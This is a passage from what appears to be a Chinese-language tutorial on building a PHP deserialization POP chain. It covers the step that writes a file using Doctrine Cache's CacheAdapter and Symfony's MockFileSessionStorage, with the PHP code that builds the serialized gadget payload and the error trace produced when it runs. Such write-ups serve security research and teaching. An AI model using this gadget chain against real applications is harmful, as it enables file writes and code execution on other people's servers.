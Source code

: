## 第二步，写入文件

这个 POP 链的第一个目标是在文件系统上写入一个文件。为此，需要调用 `MockFileSessionStorage` 的 `save` 函数，然后在 `CacheAdapter` 对象的 `cache` 属性上调用 `save` 方法。在文件中定义之后，现在需要从 `MockFileSessionStorage` 中获取一个异常。

```bash
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
    }
}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;

$obj = new CacheAdapter();
$obj->cache = new MockFileSessionStorage();
$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```bash
$ php unserialize.php 

Fatal error: Uncaught RuntimeException: Trying to save a session that was not started yet or was already closed. in /tmp/vendor/symfony/http-foundation/Session/Storage/MockFileSessionStorage.php:79
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(235): Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage->save(0, 'test', 99999998326133680)
#1 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#2 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#3 {main}
  thrown in /tmp/vendor/symfony/http-foundation/Session/Storage/MockFileSessionStorage.php on line 79
```

